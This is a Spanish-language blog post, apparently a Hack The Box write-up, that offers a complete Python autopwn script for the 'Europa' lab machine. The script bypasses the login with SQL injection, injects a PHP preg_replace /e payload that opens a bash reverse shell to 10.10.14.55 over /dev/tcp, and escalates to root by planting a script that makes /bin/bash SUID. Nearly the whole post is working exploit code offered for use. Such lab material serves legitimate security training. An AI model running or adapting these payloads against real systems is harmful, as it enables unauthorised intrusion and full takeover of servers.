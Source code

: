 ```yaml
---
layout: single
title: Europa - Hack The Box
excerpt: "Una máquina muy interesante la cual resolvemos en mi canal de YouTube. En este caso, os comparto el script `Autopwn` que nos habíamos configurado en Python, donde tras su ejecución se nos automatiza la intrusión y la escalada de privilegios mediante el uso de la librería pwn."
date: 2020-01-31
classes: wide
header:
  teaser: https://k4lelv.github.io/k4lelvBlog.github.io/assets/images/htb-writeup-europa/europa_logo.png
  teaser_home_page: true
  icon: https://k4lelv.github.io/k4lelvBlog.github.io/assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Autopwn
  - Scripting
tags:
  - Sqli
  - Web Exploiting
  - Privilege Escalation
  - Python
  - Pentesting
---
```


<p align="center">
<img src="https://k4lelv.github.io/k4lelvBlog.github.io/assets/images/htb-writeup-europa/europa_logo.png">
</p>

Una máquina muy interesante la cual resolvemos en mi canal de YouTube. En este caso, os comparto el script `Autopwn` que nos habíamos configurado en Python, donde tras su ejecución se nos automatiza la intrusión y la escalada de privilegios mediante el uso de la librería pwn.

Para los interesados en la resolución de esta máquina, os dejo el enlace al vídeo que subí a mi canal:

- [Máquina Europa - HackTheBox](https://www.youtube.com/watch?v=wOm4OOBLbys)

## Script Autopwn

```python
#!/usr/bin/python
#coding: utf-8

# Author: k4lelv https://www.youtube.com/watch?v=wOm4OOBLbys

import requests, sys, urllib3, signal, time, threading
from pwn import *

# Declaración de variables
url = "https://admin-portal.europacorp.htb/login.php"
url_openvpn = "https://admin-portal.europacorp.htb/tools.php"
lport = 443

signal.signal(signal.SIGINT, signal.SIG_DFL)

def obtainShell():

 s = None

 try:
  urllib3.disable_warnings()
  s = requests.session()
  s.verify = False
  s.keep_alive = False

  login_data = {
   'email' : "admin@europacorp.htb' OR '1' = '1",
   'password' : 'admin'
  }

  p1 = log.progress("Login")
  p1.status('Realizando inyección SQL')
  time.sleep(2)

  r = s.post(url, data=login_data)

  p1.status('Inyección SQL enviada')
  time.sleep(2)

  if "Dashboard" in r.text:
   p1.success("Inyección SQL realizada con éxito")
   time.sleep(1)
   log.success("Acceso al Dashboard garantizado")
   time.sleep(1)
  else:
   p1.failure("No ha sido posible realizar la inyección SQL")
   sys.exit()

  p2 = log.progress("Explotación")
  p2.status("Creando un nuevo fichero de configuración VPN")
  time.sleep(2)

  openvpn_config_file_data = {
   'pattern' : '/ip_address/e',
   'ipaddress' : """system("bash -c 'bash -i > /dev/tcp/10.10.14.55/443 0>&1'")""",
   'text' : 'ip_address = k4lelv'
  }

  p2.status("Enviando petición al servidor")
  time.sleep(2)

  r = s.post(url_openvpn, data=openvpn_config_file_data, timeout=1)

  p2.success("Petición enviada con éxito")
  time.sleep(1)

 except requests.exceptions.ReadTimeout:
  p2.success("Petición enviada con éxito")
  time.sleep(1)

 except:
  print "\n[*] Ha ocurrido un error...\n"
  sys.exit()

if __name__ == '__main__':

 try:
  threading.Thread(target=obtainShell).start()
 except Exception as e:
  log.error(str(e))

 shell = listen(lport, timeout=20).wait_for_connection()

 if shell.sock is None:
  log.failure("No se ha obtenido ninguna conexión")
  sys.exit()
 else:
  log.success("Se ha obtenido una conexión")
  time.sleep(1)
  log.info("Acceso al sistema como usuario www-data")
  time.sleep(1)

 p3 = log.progress("Escalación de privilegios")
 p3.status("Creando fichero logcleared.sh en el sistema")
 time.sleep(2)
 shell.sendline("echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /var/www/cmd/logcleared.sh; chmod +x /var/www/cmd/logcleared.sh")
 p3.status("Archivo logcleared.sh creado")
 time.sleep(120)
 p3.status("Obteniendo shell como root")
 shell.sendline("bash -p")
 p3.success("Pwned!!")
 shell.interactive()

 sys.exit()
```